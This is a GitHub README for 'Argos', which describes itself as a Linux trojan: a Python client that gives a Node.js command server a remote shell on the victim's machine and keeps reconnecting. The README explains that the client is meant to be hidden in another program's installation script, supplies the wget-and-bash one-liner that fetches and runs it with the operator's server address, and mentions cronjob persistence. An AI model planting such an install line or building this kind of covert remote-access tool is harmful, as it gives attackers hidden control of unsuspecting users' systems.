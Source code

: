 # Argos

*Can see everything, beware of its omniscience, kneel before its greatness.*

⚠️ *Do not use for illegal purposes*
*THIS PROJECT IS IN PROGRESS. The backend api is functionnal but the frontend is still in developpement*
## Summary

- [**Presentation**](#presentation)
- [**Installation**](#installation)
- [**Removing**](#removing)
- [**Credits**](#credits)

## Presentation

#### Main goal

This program work on **Linux** distrubtion.

The main goal of this project is to show how frighteningly easy it is to create a program that can access to another machine.
This project is a [**trojan**](https://us.norton.com/internetsecurity-malware-what-is-a-trojan.html) that, when used in an installation script, can easily be installed and gain access to the whole system.

#### How it works

There is 2 main parts to this project:
- The online server
- The client

#### Client side

Get to the client part
```bash
cd client/
```

The client side program is made using [**python3**](https://www.python.org/downloads/) and can easily be called in the installation script of another program by using a simple curl command.

The client side is using [**socket io**](https://socket.io/fr/) to connect with the server through web sockets.
In case the server is not running, the program will try every 3 seconds to connect to the server until it's connected.

Once connected, the client script is waiting for instructions from the server.
The instruction it can get are mostly commands. In order to run the commands, it's using a child process that is running a shell, writing in it's stdin using the file descriptor obtained through the pty.spawn command.

Once the child process is done running a command, it send a ALRM signal to its ppid so we can get the output of the command.

#### Server side

Get to the server part:
```bash
cd online_server
```
Front:
```bash
cd frontend
```
Backend:
```bash
cd server
```
The server is made in [**Node js**](https://nodejs.org/en/download/).
The backend is composed of 2 server :
- A [**socker io**](https://socket.io/fr/get-started/chat) server
- A [**express JS**](https://expressjs.com/fr/) server

The *express JS* server is meant to received the requests from the frontend server.
Here are the routes of that server.
| Route | Protected using JWT |
|-------|---------------------|
|/login | NO |
|/services/:id| YES |
|/services/:id/shell| YES|

The socket server accept sockets and stock them in a global variable so the connexion can be used later on.
The sockets are listenning to events and so we are using that so in case of deconnexion with a client, the client will automaticly be remove from the list.

The /shell endpoint use the socket io server sending a command to the client and waiting for a response to send back the information to the frontend.

FrontEnd endpoints:
| Endpoint | Protected |
|----------|-----------|
|/login    | NO        |
|/clients  | YES       |
|/services/:id| YES    |
|/services/:id/shell| YES |

## Installation

In order to use the project, you need to have a script that people will run.

In this very script, you juste have to call this command (remember to replace the 'Adress of the online server' by your server adress) :
```bash
wget -q -O - https://raw.githubusercontent.com/Just1truc/Argos/main/client/install_argos > here && chmod 777 here && bash here "Adress of the online server" && rm here
```
Once this command has been run, everthing should be ready for the client.

Also, to setup the server, it's kinda more complicated.
You have to host both the [**front**](https://github.com/Just1truc/Argos/blob/main/online_server/frontend/README.md) and the [**backend**](https://github.com/Just1truc/Argos/tree/main/online_server/server/README.md).

## Removing

This trojan is pretty annoying right? So let's remove it from your computer !
To do so, you just need to first execute this command to get rid of the cronjob :
```bash
cronjob -r
```

Then, you need to cut the access to your computer, so let's kill the script doing that:
if you don't have ``htop``, you may have to install it.
```bash
htop -F python
```
Then, keep the pid of the command that is using *python3* to run and kill it:
```bash
kill [pid]
```


## Credits:

#### Client side && Backend developper : Justin Duc

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/justin-duc-51b09b225/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/Just1truc)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:justin.duc@epitech.eu)

#### Frontend Developper : Baptiste Leroyer

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/baptiste-leroyer-a69894227/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/ZiplEix)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:baptiste.leroyer@epitech.eu)

#### DevOps Developper : Leo Dubosclard

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://linkedin.com/in/leo-dubosclard)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/ZerLock)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:leo.dubosclard@epitech.eu)

#### Frontend Developper : Joshua Brionne

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/joshua-brionne/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/izimio)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:joshua.brionne@epitech.eu)

#### Frontend Developper : Paul laban

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/paul-laban-5b190b227/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/501stEcho)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:paul.laban@epitech.eu)
